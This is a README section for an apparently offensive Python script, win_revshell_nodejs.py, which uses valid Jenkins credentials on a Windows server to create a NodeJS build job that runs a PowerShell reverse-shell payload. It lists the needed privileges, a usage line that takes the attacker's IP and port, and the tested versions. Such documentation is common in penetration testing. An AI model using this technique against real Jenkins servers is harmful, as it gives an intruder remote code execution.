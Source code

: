 ## win_revshell_nodejs.py
This script is useful when you have valid credentials and want to check if it can be use to spawn a reverse shell.\
The Jenkins server must be installed on Windows. Windows must have [NodeJS](https://nodejs.org/en/download) application installed. Additionally, Jenkins must have the "[nodejs](https://plugins.jenkins.io/nodejs/)" plugin installed.\
To be able to receive a reverse shell, the user must have BUILD and JOB CREATION privileges.\
Once logged in on Jenkins, the script creates a new **"Freestyle project"** JOB.\
![win_revshell_nodejs_1](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_nodejs.py/images/win_revshell_nodejs_1.png)

Then configures or BUILD it to **"Execute NodeJS script"** with the **Powershell** payload.\
![win_revshell_nodejs_2](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_nodejs.py/images/win_revshell_nodejs_2.png)

Finally, the script sends the instruction to execute this JOB.

USAGE:\
python3 ./win_revshell_nodejs.py -w URL -r LOCAL_IP -rp LOCAL_PORT
![win_revshell_nodejs_3](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_nodejs.py/images/win_revshell_nodejs_3.png)
![win_revshell_nodejs_4](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_nodejs.py/images/win_revshell_nodejs_4.png)

Tested on Jenkins 2.150.2 and Windows 10 Pro 22H2 b.19045
